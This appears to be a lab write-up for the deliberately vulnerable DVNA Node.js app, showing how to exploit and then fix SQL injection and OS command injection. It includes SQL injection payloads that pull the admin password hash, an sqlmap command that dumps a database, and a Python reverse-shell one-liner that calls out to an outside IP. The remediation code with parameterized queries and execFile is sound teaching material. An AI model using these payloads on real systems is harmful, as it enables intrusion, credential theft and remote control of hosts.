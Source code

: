 # sql Injection
## Exploiting error based SQL injection

### Get the result of first user without knowing any user name with sqli
```
' or '1'='1
```

### Exfiltrate admin password hash
```
' UNION SELECT password,1 from Users where login='admin' -- //
```


---
## The Vulnerability 

No input validation or sanitization for user controlled inputs

`db.sequelize.query` is a method in the Sequelize ORM (Object-Relational Mapping) library for Node.js that can be used to execute raw SQL queries against a database.

<p>
By default, db.sequelize.query will use parameterized queries, meaning that any input values will be automatically escaped and treated as parameters rather than being concatenated into the SQL string. This helps to prevent SQL injection attacks and makes the query more efficient, as the database can cache the execution plan for the query.

However, it is possible to disable parameterization and use raw SQL queries by passing the `raw: true` option to the db.sequelize.query method. In this case, you should be careful to manually escape any input values to prevent SQL injection vulnerabilities.
</p>

You can check if the raw option is set to true or not by looking at the second parameter of the db.sequelize.query method.

If the second parameter is an object that contains a raw property set to true, then the query is a raw SQL query. For example:
![image](https://user-images.githubusercontent.com/120215854/233464025-25a66d2b-685f-4b6f-bb59-1ab16c589e38.png)

On the other hand, if the second parameter is not an object, or if it is an object that does not contain a raw property set to true, then the query is a parameterized query. For example:
![image](https://user-images.githubusercontent.com/120215854/233464100-51b4295b-3303-4966-9574-53301f8906e8.png)


<br>

---

## The fix

We can use `model's` `find` function and rely on in-built input sanitization of sequelize.

### Edits to the `core\appHandler.js`

```js
module.exports.userSearch = function (req, res) {
//Comment out the following lines 
	//var query = "SELECT name,id FROM Users WHERE login='" + req.body.login + "'";
	//db.sequelize.query(query, {
	//	model: db.User
	//}).then(user => {
	//	if (user.length) {
		db.User.find({where:{'login':req.body.login}}).then(user => {
			if (user) {
			var output = {
				user: {
					//name: user[0].name,
					//id: user[0].id
					name: user.name,
					id: user.id
				}
			}
			res.render('app/usersearch', {
				output: output
			})
		} else {
			req.flash('warning', 'User not found')
			res.render('app/usersearch', {
				output: null
			})
		}
	}).catch(err => {
		//req.flash('danger', 'Internal Error')
		req.flash('yei', 'Fixed it')
		res.render('app/usersearch', {
			output: null
		})
	})
}
```


---

--- 

## Automating with SQLMAP

#### Dumping database with sqlmap

```
--dbms=mysql -u "http://142.93.172.244:9090/app/usersearch" --data="login=1" -D "dvna" --tables --cookie="connect.sid=s%3Ab8IWfEtcFY0LxSty7cifwo4izX3108fO.%2Fr17H%2FAZe%2B%2BkwLexqb0ose9ZRx5qe%2FmQn7X%2FWFmdoEA" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36" --referer="http://142.93.172.244:9090/app/usersearch" --delay=0 --timeout=30 --retries=0 --level=5 --risk=3 -T "Users" --dump

```




<br><br>

# OS Command Injection

## Exploiting
##### Intended behaviour
```
Enter a valid IP
8.8.8.8
```
##### Exploiting by appending a OS command 
```
# List the files
8.8.8.8, ls

# Get the effective username of the current user when invoked
8.8.8.8, whoami
```

##### Getting a reverse shell
```
# Start a listener on your public IP
nc -nlvp 4444

# Run the following in vulnerable app function
8.8.8.8; python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("138.68.66.98",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' 
```


### Vulnerability 

~~~
'exec' method can execute arbitrary OS commands
~~~


### The fix

~~~
We can use `exec_file` or `spawn` method under child_process which will prevent arbitrary command execution.
~~~

### Edits to the `core\appHandler.js`

```js
// Remove the following line or replace 'exec' with 'execFile'
const exec = require('child_process').exec;

// Add the follwing line 
const execFile = require('child_process').execFile;
```

Then 
```js
// Remove/Replace the line 
exec('ping -c 2 ' + req.body.address, function (err, stdout, stderr) {

// Add the line
execFile('ping', ['-c', '2', req.body.address] , function(err,stdout,stderr){
```



